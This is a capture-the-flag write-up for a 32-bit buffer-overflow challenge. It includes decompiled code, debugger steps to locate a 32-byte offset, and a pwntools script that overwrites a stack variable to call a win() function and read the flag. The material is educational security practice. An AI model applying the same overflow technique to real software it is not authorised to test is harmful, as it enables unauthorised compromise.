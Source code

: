 ```yaml
--- 
title: Binary Exploitation -  Admin?
date: 2025-01-27 
categories: [CTF, Writeups] 
tags: [ctf, buffer_overflow , pwn ] 
author: 0xhyder
description: A walkthrough of the pwn challenge from the IIT BHU - Codefest CTF 2025
---
```


### Description

### 100

challenge by : 0xkn1gh7

Can you become admin?

### Solution

we got a ELF executable file,

![image1](/assets/images/image1.png)

checksec,

![image3](/assets/images/image3.png)

From the initial inspection of the ELF executable file,

1. The file is a 32-bit, little-endian executable.
2. The file is not stripped, allowing for easier debugging.
3. No stack canary is present, suggesting a vulnerability to buffer overflow attacks.

From the Decompiled Code ,
```c

int32_t win()
{
    void var_74;
    fgets(&var_74, 0x64, fopen("/flag.txt", u"r…"));
    return puts(&var_74);
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    void* const __return_addr_1 = __return_addr;
    int32_t* var_10 = &argc;
    setbuf(*stdout, nullptr);
    banner();
    int32_t var_14 = 1;
    void buf;
    fgets(&buf, 0x32, *stdin);
    
    if (var_14 != 0x23456723)
        printf("%x\\n", var_14);
    else
        win();
    
    return 0;
}

int32_t _fini()
{
    return;
}
```

At first, the idea was to overwrite the `EIP` register to directly call the `win()` function. Using `cyclic()` to find the offset for `EIP`:

```python
from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

```

![image2](/assets/images/image2.png)


However, after testing, it was observed that the EIP register was not overwritten. Upon further inspection of the assembly code:
![image3](/assets/images/image4.png)

From the disassembly, it was noticed that the variable `var_14` is stored at `ebp - 0xc`. The value of `var_14` is compared with `0x23456723` at `main+89`. Using a debugger to set the break point at the address 0x56556315 to inspect the value:

```python
pwndbg> print/x *(int*)($ebp - 0xc)
$1 = 0x61616169
pwndbg> print/x ($ebp - 0xc)
```

This reveals the offset where `var_14` is located. Using `cyclic_find()`

```python
>>> cyclic_find(0x61616169)
32
```

The offset is confirmed to be 32 bytes.

Since the offset is revealed , By crafting a payload to overwrite the value at offset 32 with `0x23456723`, the condition to call the `win()` function is satisfied, and the flag can be retrieved.

### Exploit

using python with pwn for script,

```python
from pwn import *
context.log_level = 'critical'
elf = context.binary = ELF('chall')

gdbscript = '''
break *main
continue
'''

if args.REMOTE:
    p = remote('codefest-ctf.iitbhu.tech', 16391)
elif args.GDB:
     p = gdb.debug(elf.path, gdbscript=gdbscript)
else:
    p = process(elf.path)  

log.info("\\\\n==== start exploit ====\\\\n")
p.recvuntil(b'Admin?')
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaa\\x23\\x67\\x45\\x23'
p.sendline(payload)
print(p.recv())
p.interactive()
```

got the flag,
![image4](/assets/images/image5.png)